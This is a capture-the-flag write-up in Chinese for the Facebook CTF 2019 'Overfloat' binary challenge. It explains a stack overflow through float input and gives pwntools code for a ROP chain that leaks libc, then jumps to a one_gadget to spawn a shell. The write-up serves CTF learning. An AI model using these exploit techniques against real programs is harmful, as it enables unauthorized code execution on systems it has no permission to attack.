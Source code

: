 Overfloat - PWN 100
===

## Introduction
**facebook ctf 2019 - pwn 100**


這題程式會用**fgets**讀取input，再用**atof**轉型成**float**
![image](https://i.imgur.com/OZKBs1k.png)
紅色框起來的部分是我們要overflow的地方
他會把main裡的stack address傳進chart_course
而這邊寫入的位址就是main的stack
雖然前面印出來的LON,LAT的index會重置，但實際上a1這個array的index卻會一直往下跑，所以算好offset就可以成功蓋到ret addr。
輸入done就可以結束程式。(break while loop)

## exploit
因為程式是用**atof()**強制轉型成float num，所以我們可以用unpack('f',p32(num))[0]
讓atof成功寫入我們想要的值。

```python=
from pwn import *
import struct

def defloat(num):
    return str(struct.unpack('f',p32(num))[0])
```

算好offset之後，接著就是基本ROP chain的應用。
但這邊要注意的是，一次寫入只有32bits，而leak的rop gadget都是小於32bits。
但64位元的OS一次pop rip都是64bits，所以要補0。

```python=

junk = defloat(0xdeadbeef)

p.recvuntil('?')
for i in range(0,14):
    p.recvuntil(': ')
    p.sendline(junk)
p.sendline(defloat(pop_rdi_ret))
p.sendline(defloat(0))
p.sendline(defloat(puts_got))
p.sendline(defloat(0))
p.sendline(defloat(puts_plt))
p.sendline(defloat(0))
# return to main to read one gadget
p.sendline(defloat(main))
p.sendline(defloat(0))
```

成功leak puts_libc之後就是算libc_base，ret one_gadget

但這邊onegadget要分兩次寫入

```python=
def one(num):
    return str(struct.unpack('f', num)[0])
    
one_gadget = libc_base + 0x4f2c5

# offset
p.recvuntil('?')
for i in range(0,14):
    p.recvuntil(': ')
    p.sendline(junk)
one1 = p64(one_gadget)[4:8]
one2 = p64(one_gadget)[0:4]
# write ret addr 
p.sendline(one(one2))
p.sendline(one(one1))
p.sendline('done')
p.interactive()
```

**get shell!**
